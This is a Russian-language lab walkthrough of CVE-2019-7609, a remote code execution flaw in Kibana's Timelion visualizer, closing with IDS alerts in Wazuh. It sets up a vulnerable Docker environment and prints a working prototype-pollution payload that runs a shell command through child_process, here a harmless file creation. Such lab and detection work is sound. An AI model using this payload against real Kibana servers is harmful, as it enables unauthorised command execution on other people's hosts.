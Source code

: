 # CVE-2019-7609

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 5.6.15 и 6.6.1 содержат ошибку выполнения произвольного кода в визуализаторе Timelion. Злоумышленник, имеющий доступ к приложению Timelion, может отправить запрос, который попытается выполнить JavaScript код. Благодаря этому злоумышленник может выполнять произвольные команды на хосте.

### Эксплуатация уязвимости

Перед запуском уязвимой среды выполните команду sudo sysctl -w vm.max\_map\_count=262145

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601/ будет доступна панель Kibana

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно перейти в визуализатор Timelion и отправить соответсвующую полезную нагрузку:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

После этого перейдите во вкладку Canvas, чтобы выполнилась команда /bin/touch /tmp/success

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

После этого на хосте был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
